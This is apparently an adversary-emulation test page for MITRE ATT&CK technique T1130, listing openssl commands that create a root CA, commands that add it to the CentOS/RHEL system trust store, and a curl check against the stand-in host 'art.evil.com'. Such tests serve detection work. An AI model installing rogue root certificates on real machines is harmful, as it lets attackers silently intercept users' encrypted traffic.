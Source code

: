 # Install Root Certificate

MITRE ATT&CK Technique: [T1130](https://attack.mitre.org/wiki/Technique/T1130)


## Create a root CA with openssl
    openssl genrsa -out rootCA.key 4096
    openssl req -x509 -new -nodes -key rootCA.key -sha256 -days 365 -out rootCA.crt

## Install root CA on CentOS/RHEL 5 and below
    cat rootCA.crt >> /etc/pki/tls/certs/ca-bundle.crt

## Install root CA on CentOS/RHEL 6 and above
    cp rootCA.crt /etc/pki/ca-trust/source/anchors/
    update-ca-trust

## Testing the trusted certificate.
To test the new trust, apply the root certificate or another signed with it to a SSL/TLS web service and attempt a connection with curl or wget.

    curl https://art.evil.com